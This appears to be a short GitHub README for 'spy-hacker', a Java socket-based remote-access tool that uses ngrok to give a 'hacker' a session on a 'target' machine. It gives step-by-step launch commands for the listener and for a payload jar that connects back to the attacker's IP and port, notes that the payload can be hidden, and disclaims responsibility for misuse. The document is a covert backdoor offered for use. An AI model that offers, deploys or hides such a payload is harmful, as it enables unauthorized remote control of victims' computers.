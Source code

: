 # spy-hacker
simple scripts based on the socket to open a session between the target and the hacker over the internet using ngrok tools

- Note :i am not responsible for any bad use of these scripts
1) You need JRE(java runtime environment)
- to launch the scripts
1)  first runs java server script using this command : java SpyHacker
2)  type the local port and waiting the connection of the client
3)  to launch the payload you should pass the ip and number port as an input parameter
4)  type this command to lunch the payload : java -jar payload.jar 192.168.1.1 8080 (as an example for ip address and port number)
5) you can hide the payload (see the video below)
# screenshot
![](spy_hacker_capture.png)



